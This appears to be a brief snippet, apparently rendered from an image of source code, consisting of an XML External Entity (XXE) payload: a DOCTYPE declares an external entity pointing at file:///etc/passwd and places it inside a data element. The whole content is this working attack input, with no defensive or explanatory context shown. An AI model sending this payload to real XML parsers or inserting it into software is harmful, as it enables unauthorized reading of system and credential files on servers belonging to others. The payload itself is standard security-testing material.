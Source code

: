 <?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
   <data>&xxe;</data>
</root>
